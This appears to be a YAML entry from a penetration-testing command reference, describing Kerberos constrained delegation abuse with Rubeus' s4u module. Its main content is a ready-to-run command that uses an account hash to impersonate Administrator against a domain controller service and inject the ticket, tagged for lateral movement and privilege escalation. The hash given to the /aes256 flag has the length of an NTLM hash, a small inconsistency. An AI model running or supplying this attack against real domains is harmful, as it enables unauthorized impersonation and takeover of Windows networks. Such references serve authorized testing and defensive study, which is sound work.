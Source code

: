 
---
description: |
  Rubeus' `s4u` module performs Kerberos constrained delegation attacks using the S4U2Self and S4U2Proxy. This technique abuses accounts configured with delegation privileges (msDS-AllowedToDelegateTo) to impersonate any domain user and further alter the service specified since SPNs are stored in plaintext and thus access any service on the target system as any user

  Command Reference:

  	Domain: test.local

    SPN: time/dc.test.local

    alternative service: ldap(can chose any valid services such as HTTP for remoting access)

  	Username: john$

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  Rubeus.exe s4u /user:john$ /aes256:2a3de7fe356ee524cc9f3d579f2e0aa7 /impersonateuser:Administrator /msdsspn:time/dc.test.local /altservice:ldap /ptt
items:
  - Hash
  - Username
  - target
  - service
services:
  - Kerberos
OS:
  - Windows
attack_types:
  - Exploitation
  - Lateral Movement
  - Privilidge Escalation
references:
  - https://github.com/GhostPack/Rubeus
  - https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/constrained-delegation
  - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-kerberos-constrained-delegation
